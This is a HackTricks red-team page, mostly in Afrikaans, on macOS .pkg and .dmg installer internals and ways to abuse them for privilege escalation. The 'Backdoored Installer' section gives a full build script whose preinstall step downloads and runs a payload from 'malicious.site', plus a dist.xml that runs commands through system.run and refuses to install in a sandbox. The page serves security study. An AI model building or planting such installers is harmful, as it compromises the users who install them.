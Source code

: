 # macOS Installers Abuse

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Pkg Basiese Inligting

'n macOS **installer pakket** (ook bekend as 'n `.pkg` lêer) is 'n lêerformaat wat deur macOS gebruik word om **programmatuur te versprei**. Hierdie lêers is soos 'n **doos wat alles bevat wat 'n stuk programmatuur** nodig het om korrek te installeer en te werk.

Die pakketlêer self is 'n argief wat 'n **hiërargie van lêers en gidse bevat wat op die teiken** rekenaar geïnstalleer sal word. Dit kan ook **scripts** insluit om take voor en na die installasie uit te voer, soos om konfigurasielêers op te stel of ou weergawes van die programmatuur skoon te maak.

### Hiërargie

<figure><img src="../../../.gitbook/assets/Pasted Graphic.png" alt="https://www.youtube.com/watch?v=iASSG0_zobQ"><figcaption></figcaption></figure>

* **Verspreiding (xml)**: Aangepas (titel, verwelkoming teks…) en script/installasie kontroles
* **PakketInligting (xml)**: Inligting, installasie vereistes, installasie ligging, paaie na scripts om uit te voer
* **Materiaallys (bom)**: Lys van lêers om te installeer, op te dateer of te verwyder met lêer toestemmings
* **Payload (CPIO argief gzip gecomprimeer)**: Lêers om te installeer in die `install-location` van PakketInligting
* **Scripts (CPIO argief gzip gecomprimeer)**: Voor en na installasie scripts en meer hulpbronne wat na 'n tydelike gids onttrek is vir uitvoering.

### Decomprimeer
```bash
# Tool to directly get the files inside a package
pkgutil —expand "/path/to/package.pkg" "/path/to/out/dir"

# Get the files ina. more manual way
mkdir -p "/path/to/out/dir"
cd "/path/to/out/dir"
xar -xf "/path/to/package.pkg"

# Decompress also the CPIO gzip compressed ones
cat Scripts | gzip -dc | cpio -i
cpio -i < Scripts
```
In order to visualize the contents of the installer without decompressing it manually you can also use the free tool [**Suspicious Package**](https://mothersruin.com/software/SuspiciousPackage/).

## DMG Basiese Inligting

DMG-lêers, of Apple Disk Images, is 'n lêerformaat wat deur Apple se macOS vir skyfbeelde gebruik word. 'n DMG-lêer is in wese 'n **aansluitbare skyfbeeld** (dit bevat sy eie lêerstelsel) wat rou blokdata bevat wat tipies gecomprimeer en soms geënkripteer is. Wanneer jy 'n DMG-lêer oopmaak, **aansluit macOS dit asof dit 'n fisiese skyf is**, wat jou toelaat om toegang tot sy inhoud te verkry.

{% hint style="danger" %}
Let daarop dat **`.dmg`** installers **soveel formate** ondersteun dat sommige daarvan in die verlede wat kwesbaarhede bevat het, misbruik is om **kernel kode-uitvoering** te verkry.
{% endhint %}

### Hiërargie

<figure><img src="../../../.gitbook/assets/image (225).png" alt=""><figcaption></figcaption></figure>

Die hiërargie van 'n DMG-lêer kan verskil op grond van die inhoud. Dit volg egter gewoonlik hierdie struktuur vir toepassings DMGs:

* Topvlak: Dit is die wortel van die skyfbeeld. Dit bevat dikwels die toepassing en moontlik 'n skakel na die Toepassings-gids.
* Toepassing (.app): Dit is die werklike toepassing. In macOS is 'n toepassing tipies 'n pakket wat baie individuele lêers en gidse bevat wat die toepassing saamstel.
* Toepassingskakel: Dit is 'n snelkoppeling na die Toepassings-gids in macOS. Die doel hiervan is om dit maklik vir jou te maak om die toepassing te installeer. Jy kan die .app-lêer na hierdie snelkoppeling sleep om die app te installeer.

## Privesc via pkg misbruik

### Uitvoering vanaf openbare gidse

As 'n vooraf of na-installasie skrip byvoorbeeld uitvoer vanaf **`/var/tmp/Installerutil`**, en 'n aanvaller daardie skrip kan beheer, kan hy privilige verhoog wanneer dit uitgevoer word. Of 'n ander soortgelyke voorbeeld:

<figure><img src="../../../.gitbook/assets/Pasted Graphic 5.png" alt="https://www.youtube.com/watch?v=iASSG0_zobQ"><figcaption><p><a href="https://www.youtube.com/watch?v=kCXhIYtODBg">https://www.youtube.com/watch?v=kCXhIYtODBg</a></p></figcaption></figure>

### AuthorizationExecuteWithPrivileges

Dit is 'n [openbare funksie](https://developer.apple.com/documentation/security/1540038-authorizationexecutewithprivileg) wat verskeie installers en opdaterings sal aanroep om **iets as root uit te voer**. Hierdie funksie aanvaar die **pad** van die **lêer** om **uit te voer** as parameter, egter, as 'n aanvaller hierdie lêer kan **wysig**, sal hy in staat wees om sy uitvoering met root te **misbruik** om **privilege te verhoog**.
```bash
# Breakpoint in the function to check wich file is loaded
(lldb) b AuthorizationExecuteWithPrivileges
# You could also check FS events to find this missconfig
```
For more info check this talk: [https://www.youtube.com/watch?v=lTOItyjTTkw](https://www.youtube.com/watch?v=lTOItyjTTkw)

### Uitvoering deur montering

As 'n installer na `/tmp/fixedname/bla/bla` skryf, is dit moontlik om **'n montasie te skep** oor `/tmp/fixedname` sonder eienaars sodat jy **enige lêer tydens die installasie kan wysig** om die installasieproses te misbruik.

'n Voorbeeld hiervan is **CVE-2021-26089** wat daarin geslaag het om **'n periodieke skrip te oorskryf** om uitvoering as root te verkry. Vir meer inligting, kyk na die praatjie: [**OBTS v4.0: "Mount(ain) of Bugs" - Csaba Fitzl**](https://www.youtube.com/watch?v=jSYPazD4VcE)

## pkg as malware

### Leë Payload

Dit is moontlik om net 'n **`.pkg`** lêer te genereer met **pre- en post-install skripte** sonder enige werklike payload behalwe die malware binne die skripte.

### JS in Verspreiding xml

Dit is moontlik om **`<script>`** etikette in die **verspreiding xml** lêer van die pakket toe te voeg en daardie kode sal uitgevoer word en dit kan **opdragte uitvoer** met behulp van **`system.run`**:

<figure><img src="../../../.gitbook/assets/image (1043).png" alt=""><figcaption></figcaption></figure>

### Backdoored Installer

Kwaadwillige installer wat 'n skrip en JS-kode binne dist.xml gebruik
```bash
# Package structure
mkdir -p pkgroot/root/Applications/MyApp
mkdir -p pkgroot/scripts

# Create preinstall scripts
cat > pkgroot/scripts/preinstall <<EOF
#!/bin/bash
echo "Running preinstall script"
curl -o /tmp/payload.sh http://malicious.site/payload.sh
chmod +x /tmp/payload.sh
/tmp/payload.sh
exit 0
EOF

# Build package
pkgbuild --root pkgroot/root --scripts pkgroot/scripts --identifier com.malicious.myapp --version 1.0 myapp.pkg

# Generate the malicious dist.xml
cat > ./dist.xml <<EOF
<?xml version="1.0" encoding="utf-8"?>
<installer-gui-script minSpecVersion="1">
<title>Malicious Installer</title>
<options customize="allow" require-scripts="false"/>
<script>
<![CDATA[
function installationCheck() {
if (system.isSandboxed()) {
my.result.title = "Cannot install in a sandbox.";
my.result.message = "Please run this installer outside of a sandbox.";
return false;
}
return true;
}
function volumeCheck() {
return true;
}
function preflight() {
system.run("/path/to/preinstall");
}
function postflight() {
system.run("/path/to/postinstall");
}
]]>
</script>
<choices-outline>
<line choice="default">
<line choice="myapp"/>
</line>
</choices-outline>
<choice id="myapp" title="MyApp">
<pkg-ref id="com.malicious.myapp"/>
</choice>
<pkg-ref id="com.malicious.myapp" installKBytes="0" auth="root">#myapp.pkg</pkg-ref>
</installer-gui-script>
EOF

# Buil final
productbuild --distribution dist.xml --package-path myapp.pkg final-installer.pkg
```
## Verwysings

* [**DEF CON 27 - Ontpakking van Pkgs 'n Kyk Binne Macos Installer Pakkette En Algemene Sekuriteitsfoute**](https://www.youtube.com/watch?v=iASSG0\_zobQ)
* [**OBTS v4.0: "Die Wilde Wêreld van macOS Installeerders" - Tony Lambert**](https://www.youtube.com/watch?v=Eow5uNHtmIg)
* [**DEF CON 27 - Ontpakking van Pkgs 'n Kyk Binne MacOS Installer Pakkette**](https://www.youtube.com/watch?v=kCXhIYtODBg)
* [https://redteamrecipe.com/macos-red-teaming?utm\_source=pocket\_shared#heading-exploiting-installer-packages](https://redteamrecipe.com/macos-red-teaming?utm\_source=pocket\_shared#heading-exploiting-installer-packages)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Ekspert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Ekspert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
